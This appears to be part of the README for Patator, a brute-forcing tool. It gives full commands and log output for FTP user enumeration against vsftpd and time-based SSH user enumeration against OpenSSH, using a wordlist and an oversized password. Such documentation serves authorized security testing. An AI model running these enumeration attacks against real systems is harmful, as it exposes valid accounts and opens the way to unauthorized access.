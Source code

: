 The name "Patator" comes from http://www.youtube.com/watch?v=xoBkBvnTTjo

Patator is NOT script-kiddie friendly, please read the README inside patator.py before reporting.

@lanjelot

## Usage Examples

* FTP : Enumerating users denied login in vsftpd/userlist

```
$ ftp_login host=10.0.0.1 user=FILE0 0=logins.txt password=asdf -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
19:36:06 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 19:36 AEDT
19:36:06 patator    INFO -
19:36:06 patator    INFO - code  size    time | candidate                          |   num | mesg
19:36:06 patator    INFO - -----------------------------------------------------------------------------
19:36:07 patator    INFO - 230   17     0.002 | anonymous                          |     7 | Login successful.
19:36:07 patator    INFO - 230   17     0.001 | ftp                                |    10 | Login successful.
19:36:08 patator    INFO - 530   18     1.000 | root                               |     1 | Permission denied.
19:36:17 patator    INFO - 530   18     1.000 | michael                            |    50 | Permission denied.
19:36:36 patator    INFO - 530   18     1.000 | robert                             |    93 | Permission denied.
...
```

Tested against vsftpd-3.0.2-9 on CentOS 7.0-1406

* SSH : Time-based user enumeration

```
$ ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=$(perl -e "print 'A'x50000") --max-retries 0 --timeout 10 -x ignore:time=0-3
17:45:20 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 17:45 AEDT
17:45:20 patator    INFO -
17:45:20 patator    INFO - code  size    time | candidate                          |   num | mesg
17:45:20 patator    INFO - -----------------------------------------------------------------------------
17:45:30 patator    FAIL - xxx   41    10.001 | root                               |     1 | <class '__main__.TimeoutError'> timed out
17:45:34 patator    FAIL - xxx   41    10.000 | john                               |    23 | <class '__main__.TimeoutError'> timed out
17:45:37 patator    FAIL - xxx   41    10.000 | joe                                |    40 | <class '__main__.TimeoutError'> timed out
...
```

Tested against openssh-server 1:6.0p1-4+deb7u2 on Debian 7.8
